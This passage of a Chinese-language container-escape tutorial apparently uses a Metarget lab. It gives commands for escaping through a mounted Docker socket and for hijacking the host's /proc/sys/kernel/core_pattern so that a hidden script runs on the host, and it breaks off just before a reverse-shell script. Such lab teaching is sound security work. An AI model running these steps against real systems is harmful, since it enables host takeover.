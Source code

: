命令执行（逃逸）：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>./cdk run docker-sock-pwn <sock_path> <shell_cmd><br>./cdk run docker-sock-pwn /var/run/docker.sock "touch /host/tmp/pwn-success"<br>``` |

#### [](#322-%E6%8C%82%E8%BD%BD%E4%B8%BB%E6%9C%BA-procfs-%E7%9A%84%E6%83%85%E5%86%B5)3.2.2 挂载主机 procfs 的情况

procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的 procfs 挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用 root 权限，且没有开启 User Namespace 时。

一般来说，我们不会将宿主机的 procfs 挂载到容器中。然而，有些业务为了实现某些特殊需要，还是会将该文件系统挂载进来。

procfs 中的 `/proc/sys/kernel/core_pattern` 负责配置进程崩溃时内存转储数据的导出方式。从手册中能获得关于内存转储的详细信息，关键信息如下：

> 从 2.6.19 内核版本开始，Linux 支持在`/proc/sys/kernel/core_pattern`中使用新语法。如果该文件中的首个字符是管道符`|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

因此，可以利用上述机制，在挂载了宿主机 procfs 的容器内实现逃逸。

环境搭建：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>./metarget gadget install docker --version 18.03.1<br>./metarget gadget install k8s --version 1.16.5 --domestic<br>./metarget cnv install mount-host-procfs<br>``` |

执行完成后，K8s 集群内 `metarget` 命令空间下将会创建一个名为 `mount-host-procfs` 的 pod。

宿主机的 procfs 在容器内部的挂载路径是 `/host-proc`。

复现：

执行以下命令进入容器：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>kubectl exec -it -n metarget mount-host-procfs /bin/bash<br>``` |

在容器中，首先拿到当前容器在宿主机上的绝对路径：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>cat /proc/mounts \| grep docker<br>``` |

从 `workdir` 可以得到基础路径，结合背景知识可知当前容器在宿主机上的 `merged` 目录绝对路径如下：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121630395.png-water_print](assets/1699410413-0e223b0c858e78a37569206e483f0af7 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111121630395.png-water_print")

向容器内 `/host-proc/sys/kernel/core_pattern` 内写入以下内容：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>echo -e "\|/var/lib/docker/overlay2/c7c07b405792a4da3db07f22ae42a35ad00c8946362f0ebe7687bea79785add8/merged/tmp/.x.py \rcore           " > /host-proc/sys/kernel/core_pattern<br>``` |

然后在容器内创建一个反弹 shell 的 `/tmp/.x.py`：
